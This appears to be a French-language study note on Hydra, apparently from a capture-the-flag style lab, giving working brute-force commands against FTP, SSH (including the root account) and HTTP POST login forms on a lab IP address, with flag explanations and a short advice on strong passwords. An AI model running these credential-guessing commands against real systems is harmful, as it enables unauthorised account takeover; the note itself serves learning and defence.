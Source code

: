 Hydra est un outil de **brute force en ligne** permettant de tester rapidement des listes de mots de passe contre divers services d’authentification (ex. SSH, FTP, HTTP, SMTP, MySQL, RDP, Telnet, VNC, etc.).

- **Fonctionnement :**
    
    - Automatisation de tentatives de connexion (ex. via dictionnaire de mots de passe).
        
    - Permet de trouver des identifiants faibles ou par défaut.
        
- **Risques :**
    
    - Les mots de passe **courants**, **simples** (<8 caractères, sans complexité), ou **par défaut** (ex. `admin:password`) sont facilement cassés.
        
- **Bonne pratique :**  
    → Toujours remplacer les mots de passe par défaut et utiliser des mots de passe robustes pour éviter une compromission rapide.



## 1️⃣ FTP

Commandes :  
hydra -l user -P passlist.txt ftp://10.10.224.225

- `-l user` : username
    
- `-P passlist.txt` : liste de mots de passe
    

---

## 2️⃣ SSH

Commandes :  
hydra -l <username> -P <full path to pass> 10.10.224.225 -t 4 ssh

- `-l <username>` : username
    
- `-P <wordlist>` : fichier de mots de passe
    
- `-t 4` : nombre de threads parallèles (ici 4)
    

Exemple concret :  
hydra -l root -P passwords.txt 10.10.224.225 -t 4 ssh

---

##3️⃣ Web Form (POST)

Commandes :  
hydra -l <username> -P <wordlist> 10.10.224.225 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V

- `http-post-form` : type de formulaire POST
    
- `/` : chemin du formulaire (login page)
    
- `username=^USER^&password=^PASS^` : champs du formulaire
    
- `F=incorrect` : texte affiché en cas d’échec
    
- `-V` : verbose, affiche toutes les tentatives
    

> Pour déterminer si la page utilise GET ou POST, consulter l’onglet **Network** dans les dev tools du navigateur.